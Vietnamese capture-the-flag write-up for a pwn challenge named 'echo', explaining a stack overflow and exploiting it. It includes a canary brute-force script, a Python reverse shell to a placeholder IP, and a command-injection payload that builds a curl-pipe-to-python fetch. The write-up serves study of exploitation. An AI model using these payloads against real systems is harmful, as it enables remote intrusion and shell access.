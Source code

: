Đề cho t file **echo**</br>
![image](https://user-images.githubusercontent.com/23306492/40347441-7fa99dfe-5dca-11e8-9556-106b67a58c2d.png)</br>
 **enable** NX, canary</br>
![image](https://user-images.githubusercontent.com/23306492/40347475-a6df330c-5dca-11e8-9b4f-5e6e69d98fb8.png)</br>
Chương trình có 2 function chính : `fun()` nhập số luckynumber và `echo` nhâp  echo</br>
![image](https://user-images.githubusercontent.com/23306492/40347624-223ecf3a-5dcb-11e8-89f5-c7f42d267a8e.png)</br>
Trong hàm fun() `luckynumber = 0x0804B098`</br>
![image](https://user-images.githubusercontent.com/23306492/40347543-e06027f8-5dca-11e8-9330-e32dedb0bfdb.png)</br>
Trong hàm `echo()` </br> có lỗi stack overflow `n = recv(fd, &buf, 0x11Cu, 0);`</br>
![image](https://user-images.githubusercontent.com/23306492/40347603-0f1c8438-5dcb-11e8-829c-7cc099e316e9.png)</br>
Trước tiên thì ta cần `leak canary` sử dụng brute force
```
def leak_canary():
	canary = ""
	canary_offset = 0x100
	guess = 0x0
	buf = ""
	buf += "A" * canary_offset
	buf += canary
	while len(canary) < 4:
		while guess != 0xff:
			try:
				r = remote("localhost",12345)
				context.log_level = "critical"
				r.recvuntil("number: ")
				r.sendline(str(12345))
				r.recvuntil("Enter what you want to echo: ")
				r.send(buf + chr(guess))
				r.recvuntil("Bye bye!")
				print "Guessed correct byte:", format(guess, '02x')
				canary += chr(guess)
				buf += chr(guess)
				guess = 0x0
				r.close()
				break
			except EOFError,e:
				guess += 1
	return canary
```
![image](https://user-images.githubusercontent.com/23306492/40347714-6a405a24-5dcb-11e8-81db-a46cf987896a.png)</br>
Với bài này thì ta sử dụng system 4 byte để exploit. Tương tự như bài [babyfirst-revenge-v2 hitcon 2017](https://github.com/orangetw/My-CTF-Web-Challenges/blob/master/hitcon-ctf-2017/babyfirst-revenge-v2/exploit.py) và  [Reverse Shell](http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet)</br>
```
import socket,subprocess,os
s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
s.connect(("xxx.xxx.xxx.xxx",31337))
os.dup2(s.fileno(),0)
os.dup2(s.fileno(),1)
os.dup2(s.fileno(),2)
p=subprocess.call(["/bin/sh","-i"])
```
```
payload = [
# generate "g> ht- sl" to file "v"
    '>dir', 
    '>sl', 
    '>g\>',
    '>ht-',
    '*>v',

    # reverse file "v" to file "x", content "ls -th >g"
    '>rev',
    '*v>x',
    # generate "curl xxx.xxx.xxx.xxx|python;"
    '>\;\\', 
    '>on\\', 
    '>th\\', 
    '>py\\', 
    '>\|\\', 
    '>xx\\', 
    '>x\\', 
    '>x.\\', 
    '>xx\\', 
    '>x.\\', 
    '>xx\\', 
    '>x.\\', 
    '>xx\\', 
    '>\ \\', 
    '>rl\\', 
    '>cu\\', 
    # got shell
    'sh x', 
    'sh g', 
]
```
[PAYLOAD](https://raw.githubusercontent.com/k4k4/SECATHON/master/echo/echo.py)</br>
![echo](https://user-images.githubusercontent.com/23306492/40348447-f1fff918-5dcd-11e8-87e3-a77bbd71d930.png)
